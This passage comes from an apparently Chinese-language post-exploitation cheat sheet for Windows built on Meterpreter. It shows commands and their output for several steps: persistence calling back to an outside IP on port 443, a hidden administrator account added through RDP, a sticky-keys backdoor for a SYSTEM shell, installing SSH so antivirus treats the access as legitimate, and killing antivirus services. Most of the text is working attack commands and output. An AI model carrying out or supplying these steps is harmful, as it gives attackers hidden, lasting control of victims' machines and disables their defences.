 #### Method 2
Add To Startup
```powershell!
$ run persistence -U -i 5 -p 443 -r 159.89.115.68
```
![](https://i.imgur.com/zGf5jM9.png)
![](https://i.imgur.com/56matIm.png)

#### RDP
```powershell
meterpreter > run getgui -e -u admin -p GSS%azure$

[!] Meterpreter scripts are deprecated. Try post/windows/manage/enable_rdp.
[!] Example: run post/windows/manage/enable_rdp OPTION=value [...]
[*] Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
[*] Carlos Perez carlos_perez@darkoperator.com
[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     Terminal Services service is already set to auto
[*]     Opening port in local firewall if necessary
[*] Setting user account for logon
[*]     Adding User: jim with Password: Metasploit$1
[*]     Hiding user from Windows Login screen
[*]     Adding User: jim to local group 'Remote Desktop Users'
[*]     Adding User: jim to local group 'Administrators'
[*] You can now login with the created user
[*] For cleanup use command: run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up__20220819.0021.rc
```

#### System Level CMD
```cmd!
meterpreter > run post/windows/manage/sticky_keys

[+] Session has administrative rights, proceeding.
[+] 'Sticky keys' successfully added. Launch the exploit at an RDP or UAC prompt by pressing SHIFT 5 times.
```

#### SSH
安裝SSH，防毒會認為是合法程序，之後可利用ssh連入
```bash!
meterpreter > run post/windows/manage/install_ssh

[*] Installing OpenSSH.Server
[+] Compressed size: 1336
[*] Installing OpenSSH.Client
[+] Compressed size: 1152
```

#### Kill AV
發現目標在用防毒掃描，用KillAV
```bash!
meterpreter > run killav

[!] Meterpreter scripts are deprecated. Try post/windows/manage/killav.
[!] Example: run post/windows/manage/killav OPTION=value [...]
[*] Killing Antivirus services on the target...
[*] Killing off cmd.exe...
[*] Killing off cmd.exe...
```
